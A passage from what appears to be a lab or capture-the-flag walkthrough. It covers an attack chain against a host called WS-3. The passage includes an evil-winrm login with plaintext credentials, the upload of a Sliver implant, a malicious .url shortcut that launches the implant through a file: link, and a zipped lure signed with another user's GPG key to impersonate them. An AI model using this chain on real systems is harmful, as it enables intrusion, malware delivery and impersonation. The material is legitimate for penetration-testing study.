     To list current port-forwarding rules `listener_list`

    ![](https://cdn-images-1.medium.com/max/1000/1*rUHc1WJtf_Iqi8Rd1GVnRQ.png)

4. Upload the Implant to `WS-3`
    
    Connect to `WS-3` via WinRM

    ```bash
    evil-winrm -i 192.168.99.2 -u wao -p WebAO1337 
    ```
    
    Place the implant in a globally accessible folder `C:\tmp` so that any user including the one executing the script can access it.

    If `C:\tmp` does not exist
    ```powershell
    mkdir C:\tmp; cd C:\tmp
    ```

    Then upload the implant **(note: large file, will take time)**

    ![](https://cdn-images-1.medium.com/max/1000/1*55p5NHLNuwf9ZGzsaUVZRg.png)

5. Create the Malicious `.url` File

    > **INFO:** A `.url` file is a Windows Internet Shortcut using an INI-style format, containing a `URL=` fild. When opened, it launches the target resource using the associated protocol handler. While typically used for **HTTP/HTTPS** links, the `URL=` field can also point to any registered URI scheme, such as `ftp://`, `file://`, `ldap://`, `ms-msdt:`, or custom protocol handlers.
    {: .prompt-info }
    
    After testing multiple protocols, only `file://` worked reliably. (**Note:** many failed tests were on the AU VPN; switching to the US VPN resolved the issue. It's possible the AU VPN’s machine was corrupted, so I can’t confirm whether other protocols might have worked there.)

    + Creat the file
        ```ini
        [InternetShortcut]
        URL=file:C:\\tmp\\sliver.exe    
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*g96MMwPLIv7Q1bxPSXeqbQ.png)

    + Compress it
        ```bash
        zip lecture.zip ./lecture.url
        ```

    ![](https://cdn-images-1.medium.com/max/1000/1*9rrjCBB1IOPTnGPvc7QQ_w.png)

6. Sign the Archive 

    Use the previously generated GPG keypair (martin.rose) to sign the lecture zip file:

     ```bash
    gpg -u martin.rose --detach-sign ./lecture.zip
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*IUD4Kdje3H-if6HBJvPEVQ.png)
